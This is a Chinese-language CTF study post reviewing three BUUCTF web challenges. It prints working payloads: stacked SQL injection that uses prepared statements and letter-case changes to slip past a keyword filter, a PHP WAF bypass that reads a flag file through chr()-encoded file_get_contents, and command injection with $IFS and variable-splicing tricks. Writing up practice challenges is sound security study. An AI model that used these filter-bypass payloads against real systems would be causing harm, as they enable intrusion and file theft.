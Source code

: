 ```yaml
---
title: buu知识点复习
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-08-29 13:39:09
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1098162.jpg
---
```

比赛打下来唯一的感觉就是基础知识不扎实，所以就复习一下之前做过的题目，对我认为比较重要的知识点做一个总结。
一、[强网杯 2019]随便注--堆叠注入
原来改名称那个payload一直有问题，这里新学习了一个姿势：预编译
预编译相关语法如下：

set用于设置变量名和值
prepare用于预备一个语句，并赋予名称，以后可以引用该语句
execute执行语句
deallocate prepare用来释放掉预处理的语句

-1';set @sql = CONCAT('se','lect * from `1919810931114514`;');prepare stmt from @sql;EXECUTE stmt;#

拆分开来如下
-1';
set @sql = CONCAT('se','lect * from `1919810931114514`;');
prepare stmt from @sql;
EXECUTE stmt;#

回显：
strstr($inject, "set") && strstr($inject, "prepare")

这里检测到了set和prepare关键词，但strstr这个函数并不能区分大小写，我们将其大写即可。

-1';Set @sql = CONCAT('se','lect * from `1919810931114514`;');Prepare stmt from @sql;EXECUTE stmt;#

二、[RoarCTF 2019]Easy Calc--php

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200829164236.png)

当php进行解析的时候，如果变量前面有空格，会去掉前面的空格再解析，那么我们就可以利用这个特点绕过waf。

num被限制了，那么'  num'呢，在num前面加了空格。waf就管不着了，因为waf只是限制了num，waf并没有限制'  num'，当php解析的时候，又会把'   num'前面的空格去掉在解析，利用这点来上传非法字符。
var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))

三、[GXYCTF2019]Ping Ping Ping--命令执行变量拼接
过滤空格，可以用${IFS}$代替
过滤{}，用$IFS$1代替

ps:有时会禁用cat:
解决方法是使用tac反向输出命令：
linux命令中可以加\，所以甚至可以ca\t /fl\ag

符号：
；分号叫顺序执行


本题payload?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php

后面还有很多绕过方式，取反、自增等等，碰到的时候再去总结吧。

